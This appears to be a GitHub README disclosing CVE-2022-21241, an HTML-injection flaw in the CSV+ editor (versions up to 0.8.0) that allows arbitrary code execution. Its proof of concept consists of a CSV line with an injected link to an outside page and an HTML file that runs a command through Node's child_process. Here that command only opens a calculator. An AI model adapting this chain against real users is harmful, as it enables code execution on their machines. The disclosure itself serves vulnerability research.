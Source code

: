 # csv-plus_vulnerability
👻 2-Click Arbitrary Code Execution Vulnerability.  

![PoC.gif](files/PoC.gif)  

CVE-2022-21241  

⚠  
**This PoC was created to alert users and investigate vulnerabilities in their own CSV+, and is prohibited to be used for attacks.**

## Vulnerability
The following versions are vulnerable.  
- CSV+ <= 0.8.0  

Attackers can execute arbitrary code by using the Node.js functionality.
They will place the malicious js code on some site and link it from a-tags with the HTML injection vulnerability in CSV+.

## PoC
![scenario.png](files/scenario.png)  
### Malicious csv file
```csv
<a href='https://electronooooo.htmlbin.net/xsscalc.html'>click me 👻</a>
```
`https://electronooooo.htmlbin.net/xsscalc.html` is a temporary link.  
### Malicious html file (calc)
```html
<!DOCTYPE html>
<html>
    <head>
        <script>
        if (confirm("Do you want to run a calculator to check for vulnerabilities?")){
            var cmd = "calc";
            require("child_process").exec(cmd);
        }
        </script>
    </head>
    <body>
        Hi :)
    </body>
</html>
```
